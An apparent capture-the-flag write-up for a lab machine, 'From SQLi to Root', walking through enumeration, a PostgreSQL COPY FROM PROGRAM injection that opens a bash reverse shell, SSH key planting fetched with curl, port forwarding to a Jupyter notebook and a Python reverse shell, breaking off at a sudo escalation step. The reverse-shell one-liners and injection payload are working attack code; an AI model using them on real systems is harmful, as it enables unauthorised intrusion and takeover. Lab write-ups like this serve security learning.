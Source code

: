```yaml
---
layout: post
title: "From SQLi to Root"
date: 2023-10-15
---
```



# Enumeration 
IP: 
```shell
10.10.11.233
```
Ports:
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found Grafana Dashboard - `Grafana v9.5.2 (cfcea75916)`

## Reverse Shell

```shell
nc -lvnp 6969
```

### SQL Exploit 
``"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"'"``

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


``ls -ls /tmp/bash``

``./bash -p``

## Copy ssh keys to victim machine
Generate new keys https://linuxhandbook.com/add-ssh-public-key-to-server/

On the Offensive machine - 
```shell
 ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

```shell
python3 -m http.server
```

On the Victim's machine 
```shell
curl -O http://10.10.16.5:8000/id_rsa.pub

#then 

mv id_rsa.pub authorized_keys
```

On the Attackers machine 
```shell
ssh -i id_rsa juno@10.10.11.216
```

Success found user.txt!!!!

---
# Root Flag
Running `cat shadow-simulation.sh`
```bash
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```

# **Pivoting : Juno → jovian**

In user shell I type ``netstat -nptl`` command to list all active port running internally in that Machine.

```shell
ssh -i id_rsa -L 8888:127.0.0.1:8888 juno@10.10.11.216
```
This command will forward that port(8888) in my machine. And I can easily access that. :)

navigating to `localhost:8888` with my browser I found a Jupyter labs notebook


TIp `cat *| grep "token"`

After logging in with the token I was able to edit the python notebook and add a reverse shell.
```python
import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"')
```
Success

## Privilege escalation Jovian -> root
```shell
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```
Find all config.json files
```shell
find / -name config.json 2>/dev/null
```

Found `/usr/local/share/sattrack/config.json`
